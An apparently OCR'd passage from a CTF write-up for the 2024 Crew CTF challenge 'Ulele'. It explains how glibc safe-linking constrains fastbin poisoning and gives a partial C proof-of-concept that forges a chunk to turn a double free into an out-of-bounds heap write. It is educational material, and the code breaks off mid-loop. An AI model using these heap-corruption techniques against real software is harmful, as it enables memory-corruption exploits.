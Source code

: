 Considering of the last linked chunk in fast bin must ends with 0. We must have the such a patten in fast-bin: `->...->A->0`, for example: 

```s
(0x70)     fastbin[5]: 0x55555556ca20 --> 0x5555555899c0 --> 0x0
```

This not easy if you link in an arbitrary address as the last chunk (we call it chunk A) because of safe-linking. Due to Safe-linking, the `A->next` must be `(&A)>>12`. This is not easy to get unless it's freed chunks or it's some area we are able to leave some data on. For the linking in freed chunks, it's useless in this challenge since all freed chunks have the same size (so we can't have oob). However, if we create a fake chunk at the end of one chunk, by linking it into fast bin, we can get the oob primitives.

![Double Free to OOB](/Figures/uKlele/DoubleFree2OOB.drawio.png)


The following code demonstrat the case in the figure to gain OOB write based on double free. 
```c
#include <stdio.h>
void debug(){
    char a;
    write(1,"DEBUG\n",6);
    read(0,&a,1);
}
void double_free_2_oob(size_t valid1){
    size_t fake_chunk[] = {0,0,0,0,0,0,0,0x51,(valid1>>12)};
    memcpy(valid1,fake_chunk,sizeof(fake_chunk));
    char *buf = malloc(0x48);
    size_t payload[ ] = {(valid1+0x30)^(valid1>>12),};
    memcpy(buf,payload,sizeof(payload));
    // debug();
    malloc(0x48);
    buf =  malloc(0x48);
    memset(buf,0x69,0x48); // OOB Write
}
int main(){
    char * list[0x8] = {};
    for(int i = 0 ; i < 0x8 ; i ++)
        list[i] = malloc(0x48);
    char * valid_chunk_0 = malloc(0x48); 
    char * valid_chunk_1 = malloc(0x48);

    for(int i = 0 ; i < 0x8 ; i++)
        free(list[i]);
    for(int i = 0 ; i < 0x7 ; i++)
```

[0]: https://github.com/n132/CTF-Write-Up/tree/main/2024-Crew-CTF/Ulele